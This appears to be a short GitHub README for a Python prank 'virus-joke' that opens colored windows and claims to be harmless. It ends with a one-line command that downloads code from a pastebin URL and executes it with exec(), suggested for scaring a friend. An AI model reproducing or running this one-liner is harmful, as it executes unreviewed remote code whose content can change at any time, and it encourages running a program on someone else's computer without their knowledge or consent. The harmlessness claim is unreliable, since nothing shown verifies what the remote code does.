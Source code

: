 # Power-of-Rainbow
Power of Rainbow

Virus-joke, harmless.
DOESN'T CAUSE ANY HARM TO THE COMPUTER!

- Creates multi-colored windows
- Can be closed by the taskmgr
- Doesn't add himself to autoreg 
- So simple

One line version (for example, to scare a friend):
exec(__import__("requests").get("https://pastebin.com/raw/XYJEXKE7").content)
